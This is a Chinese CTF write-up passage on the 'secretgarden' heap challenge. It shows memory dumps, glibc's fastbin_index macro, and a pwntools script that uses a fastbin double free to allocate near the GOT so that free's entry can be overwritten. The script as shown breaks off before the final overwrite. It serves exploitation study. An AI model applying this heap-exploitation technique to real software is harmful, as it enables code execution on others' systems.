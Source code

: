 ```
0x6020da:	0x4010000000000000	0x507000000000017f
0x6020ea <flowerlist+10>:	0x50c000000000017f	0x000000000000017f


```

由fastbin数组索引计算的宏定义可知，高四位不影响size的大小。

```
#define fastbin_index(sz) \
	((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)

```

在分配到该位置后，复写got表即可实现利用，exp如下：

```python
from pwn import *
# from LibcSearcher import *

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
context.log_level = "debug"
elf = ELF("./secretgarden")
p = process("./secretgarden")

def add(size, name, color):
	p.recvuntil("choice : ")
	p.sendline("1")
	p.recvuntil("name :")
	p.sendline(str(size))
	p.recvuntil("flower :")
	p.send(name)
	p.recvuntil("flower :")
	p.sendline(color)

def visit():
	p.recvuntil("choice : ")
	p.sendline("2")

def del_(index):
	p.recvuntil("choice : ")
	p.sendline("3")
	p.recvuntil("garden:")
	p.sendline(str(index))

def clean():
	p.recvuntil("choice : ")
	p.sendline("4")

magic = 0x400c7b

add(0x50, "a", "aaaa")
add(0x50, "b", "bbbb")
add(0x50, "c", "cccc")

# 1->2->1
del_(1)
del_(2)
del_(1)

addr = 0x601ffa
freegot = elf.got['free']

add(0x50, p64(addr), "fake")
add(0x50, "d", "dddd")
```